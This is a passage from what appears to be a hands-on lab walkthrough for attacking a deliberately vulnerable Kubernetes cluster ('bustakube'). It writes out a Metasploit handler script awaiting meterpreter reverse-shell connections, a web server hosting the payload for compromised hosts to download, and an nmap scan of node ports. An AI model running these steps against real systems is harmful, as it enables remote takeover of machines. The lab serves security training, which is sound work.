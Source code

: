 9. Create a matching Metasploit console RC script, containing the commands that you'd run to set up the `multi/handler` to await incoming connections from this Meterpreter:

    ```shell
    cat <<END >mrsbin.rc
    use multi/handler
    set payload linux/x86/meterpreter/reverse_tcp
    set LHOST 10.23.58.30
    set LPORT 4445
    set ExitOnSession false
    exploit -j
    END
    ```

10. Start a webserver listening in our `~/meterpreter` directory to allow compromised systems to pull a copy of the `mrsbin` binary:

    ```shell
    python3 -m http.server 80
    ```
11. Start a new terminal tab by hitting `Ctrl-Shift-t`.

    ```
    Hit Ctrl-Shift-t
    ```

12. Next, start up the Metasploit Framework console, `msfconsole`, passing it the path to the `mrsbin.rc` RC script we just created.

    ```shell
    msfconsole -r ~/meterpreter/mrsbin.rc
    ```

13. Start a new terminal tab by hitting `Ctrl-Shift-t`.

    ```
    Hit Ctrl-Shift-t
    ```

14. Run a TCP port scan of the first node's TCP ports that are reserved for node ports.  

    ```shell
    nmap -Pn -sT -sV -p30000-32767 bustakube-node-1
    ```

15. Review the output - we see there is a web server running on port 31370.

16. Start up a Firefox browser.  You can use the icon in the top left menu bar, or use the same "Run" process from step 1.  Then browse to the web application via this URL:

    <http://bustakube-node-1:31370/>

17. Notice that you're seeing a web page telling you about the difficulties a large online concert ticket site is having with availability.

18. Hit `Ctrl-U` to view this web page's source.

    ```
    Hit Ctrl-U
    ```
